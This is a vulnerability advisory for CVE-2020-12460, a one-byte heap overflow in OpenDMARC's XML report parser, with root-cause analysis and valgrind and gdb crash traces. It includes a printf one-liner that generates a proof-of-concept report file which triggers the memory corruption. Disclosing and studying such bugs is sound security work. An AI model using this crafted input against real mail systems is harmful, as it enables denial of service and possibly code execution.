 # CVE-2020-12460: Heap-overflow in OpenDMARC

## Summary
OpenDMARC through 1.3.2 and 1.4.x through 1.4.0-Beta1 has improper null termination in the function opendmarc_xml_parse that can result in a one-byte heap overflow in opendmarc_xml when parsing a specially crafted DMARC aggregate report. This can cause remote memory corruption when a `'\0'` byte overwrites the heap metadata of the next chunk and its PREV_INUSE flag [1].

## Details

There is a memory corruption vulnerability in `opendmarc_xml()` of libopendmarc during parsing of DMARC aggregate reports. The versions affected are OpenDMARC through 1.3.2 and 1.4.x through 1.4.0-Beta1.

The root cause is improper null termination. The function `opendmarc_xml_parse()` does not explicitly add a null terminator (`'\0'`) to the buffer holding the XML data after reading the contents from a report file. This can cause an off-by-one error in `opendmarc_xml()` in certain cases depending on the report file, resulting in a one-byte heap overflow.

A null byte write occurs during the parsing at `opendmarc_xml.c:171`, `*sp = '\0'`. Eventually, during parsing of a specially crafted report, this null byte will overflow to the next chunk on the heap, overwriting the heap metadata, as indicated by the following valgrind output.

```
==4014== Invalid write of size 1
==4014==    at 0x401223: opendmarc_xml (opendmarc_xml.c:171)
==4014==    by 0x4020DC: opendmarc_xml_parse (opendmarc_xml.c:614)
==4014==    by 0x400D23: main (in /home/peppe/Downloads/test)
==4014==  Address 0x5204478 is 0 bytes after a block of size 1,080 alloc'd
==4014==    at 0x4C2FB55: calloc (in /usr/lib/valgrind/vgpreload_memcheck-amd64-linux.so)
==4014==    by 0x402070: opendmarc_xml_parse (opendmarc_xml.c:575)
==4014==    by 0x400D23: main (in /home/peppe/Downloads/test)
```

The size field and the least significant bits used as flags are overwritten in the metadata. The relevant flag for this vulnerability is the bit indicating 'previous chunk in use', known as `PREV_INUSE` which will be set to zero and determines if the previous chunk (storing `bufp`) is free. When the buffer is later free'd at `opendmarc_xml.c:616`, `(void) free(bufp)` - a crash occurs as `bufp` is listed as not used.

```
(gdb) run poc.xml
Starting program: /home/peppe/Downloads/test poc.xml
*** Error in `/home/peppe/Downloads/test': double free or corruption (!prev): 0x0000000000605010 ***
.
.
Program received signal SIGABRT, Aborted.
0x00007ffff7a42428 in __GI_raise (sig=sig@entry=6) at ../sysdeps/unix/sysv/linux/raise.c:54
54	../sysdeps/unix/sysv/linux/raise.c: No such file or directory.
(gdb) bt
#0  0x00007ffff7a42428 in __GI_raise (sig=sig@entry=6) at ../sysdeps/unix/sysv/linux/raise.c:54
#1  0x00007ffff7a4402a in __GI_abort () at abort.c:89
#2  0x00007ffff7a847ea in __libc_message (do_abort=do_abort@entry=2, fmt=fmt@entry=0x7ffff7b9ded8 "*** Error in `%s': %s: 0x%s ***\n") at ../sysdeps/posix/libc_fatal.c:175
#3  0x00007ffff7a8d37a in malloc_printerr (ar_ptr=<optimized out>, ptr=<optimized out>, str=0x7ffff7b9e008 "double free or corruption (!prev)", action=3) at malloc.c:5006
#4  _int_free (av=<optimized out>, p=<optimized out>, have_lock=0) at malloc.c:3867
#5  0x00007ffff7a9153c in __GI___libc_free (mem=<optimized out>) at malloc.c:2968
#6  0x00000000004020e8 in opendmarc_xml_parse (fname=<optimized out>, err_buf=0x7fffffffdcd0 "", err_len=256) at opendmarc_xml.c:616
#7  0x0000000000400d24 in main ()
(gdb) frame 6
#6  0x00000000004020e8 in opendmarc_xml_parse (fname=<optimized out>, err_buf=0x7fffffffdcd0 "", err_len=256) at opendmarc_xml.c:616
616		(void) free(bufp);
(gdb) p bufp
$1 = 0x605010 "<feedback"
(gdb) 
```

A remote attacker could provide a specially crafted report that is parsed by this library, causing a denial of service. It could possibly lead to code execution depending on how libopendmarc is used and integrated into the application, in particular if the `opendmarc_xml` function is used explicitly without calling `opendmarc_xml_parse` and with input that is not null-terminated.

A DMARC aggregate report that triggers this vulnerability can be generated using the following commands:

```
printf '<feedback></feedback>' > poc.xml; printf 'A%.0s' {1..1053} >> poc.xml; printf '<begin' >> poc.xml
```

A C program that calls `opendmarc_xml_parse` with the poc above is enough to trigger the vulnerability.

## Timeline
- 2020-07 - Reported to the Trusted Domain project [2].
- 2020-09 - Fixed by the maintainers.

## References

[1] CVE-2020-12460 - https://nvd.nist.gov/vuln/detail/CVE-2020-12460

[2] Memory corruption in opendmarc_xml() - https://github.com/trusteddomainproject/OpenDMARC/issues/64
